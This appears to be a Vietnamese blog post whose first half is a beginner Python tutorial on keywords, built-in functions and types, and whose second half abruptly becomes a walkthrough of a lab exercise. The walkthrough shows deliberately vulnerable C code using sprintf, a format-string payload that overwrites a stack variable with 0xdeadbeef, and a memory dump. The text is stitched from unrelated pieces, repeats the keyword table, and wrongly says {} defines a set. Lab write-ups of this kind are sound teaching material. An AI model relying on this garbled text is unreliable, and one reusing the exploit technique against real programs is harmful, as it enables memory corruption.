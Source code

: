```yaml
---
layout: post
title: level_0
---
```


## Python hay C/C++?

C/C++: khó viết khó đọc, nhưng chương trình viết ra thường tối ưu, chạy nhanh

Python: dễ viết dễ đọc, nhiều thư viện hỗ trợ

Mục tiêu là để học và hiểu về thuật toán, nên chỉ chú trọng vào việc đọc và viết code một cách thuận tiện nhất. Vì thế, hãy sử dụng Python

## Những thứ cơ bản nhất

### Keyword

Phân loại 35 keyword. Highlight nhưng keyword thông dụng

<pre class="memory">
giá trị boolean và null:            <span style="color:aqua">None</span> <span style="color:aqua">False</span> <span style="color:aqua">True</span>
thư viện và tên thay thế (alias):   from import as
asynchronous:                       await
bắt lỗi:                            try except raise finally
logic:                              <span style="color:aqua">and</span> <span style="color:aqua">not</span> <span style="color:aqua">or</span> <span style="color:aqua">is</span>
iterate:                            <span style="color:aqua">in</span>
trả về và thoát hàm:                <span style="color:aqua">pass</span> <span style="color:aqua">return</span> yield assert
code flow:                          <span style="color:aqua">for</span> <span style="color:aqua">while</span> <span style="color:aqua">continue</span> <span style="color:aqua">break</span> <span style="color:aqua">if</span> <span style="color:aqua">elif</span> <span style="color:aqua">else</span>
định nghĩa hàm, class, và context:  <span style="color:aqua">def</span> <span style="color:aqua">class</span> lambda with
định nghĩa scope của biến:          global nonlocal
xóa biến:                           del
</pre>

### Hàm built-in

Hàm built-in là hàm có thể gọi mà không cần import từ thư viện nào. Sau đây là một số hàm thông dụng

* `abs()`: trả về giá trị tuyệt đối
* `ascii()`: trả về mã ascii
* `bin()`: trả về dạng string binary
* `enumerate()`: iterate chuỗi, trả về cả index và phần tử trong chuỗi
* `int()`: trả về số `int` của tham số
* `len()`: trả về độ dài chuỗi/string/iterable
* `list()`: convert tham số, trả về `list`
* `max()`: trả về giá trị lớn nhất của một `list`
* `min()`: trả về giá trị nhỏ nhất của một `list`
* `ord()`: trả về mã ascii dạng số
* `print()`: in ra màn hình
* `range()`: iterate một khoảng (tham số a đến tham số b)
* `set()`: convert tham số, trả về `set`
* `sorted()`: sort và trả về kết quả đã sort
* `str()`: trả về dạng chuỗi của tham số
* `sum()`: trả về tổng tất cả phần tử của `list`/iterable
* `tuple()`: trả về dang tuple của tham số
* `zip()`: dùng để iterate nhiều `list`/iterable một lúc

### Type built-in

Type mặc định của Python. Sau đây la một số type thông dụng

* `int`: trong python, số bit ko giới hạn
* `float`
* `bool`: chỉ có `True` hoặc `False`
* `list`: định nghĩa bằng `[]`; `list` trong python tương tự array, nhưng có thể chứa đa dạng và lẫn lộn nhiều kiểu phần tử (ví dụ: `[1, "2"]` vừa chứa giá trị `int`, vừa chứa giá trị `str`)
* `tuple`: tượng tự `list`, nhưng ít sử dụng hơn; có thể hiểu đơn giản là để gom các giá trị thành một cặp/một bộ giá trị
* `str`: chuỗi ký tự định nghĩa bằng `""` hoặc `''`
* `set`: định nghĩa bằng `{}`; tương tự `list` nhưng đảm bảo các giá trị trong `set` là duy nhất
* `dict`: định nghĩa bằng `{ : }`; `dict` trong python là hashtable/map trong nhiều ngôn ngữ khác; được sử dụng rất nhiều

<pre class="memory">
giá trị boolean và null:            <span style="color:aqua">None</span> <span style="color:aqua">False</span> <span style="color:aqua">True</span>
thư viện và tên thay thế (alias):   from import as
asynchronous:                       await
bắt lỗi:                            try except raise finally
logic:                              <span style="color:aqua">and</span> <span style="color:aqua">not</span> <span style="color:aqua">or</span> <span style="color:aqua">is</span>
iterate:                            <span style="color:aqua">in</span>
trả về và thoát hàm:                <span style="color:aqua">pass</span> <span style="color:aqua">return</span> yield assert
code flow:                          <span style="color:aqua">for</span> <span style="color:aqua">while</span> <span style="color:aqua">continue</span> <span style="color:aqua">break</span> <span style="color:aqua">if</span> <span style="color:aqua">elif</span> <span style="color:aqua">else</span>
định nghĩa hàm, class, và context:  <span style="color:aqua">def</span> <span style="color:aqua">class</span> lambda with
định nghĩa scope của biến:          global nonlocal
xóa biến:                           del
</pre>

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp - 0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp - 0x4c`. Biến này có 64 byte.

2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>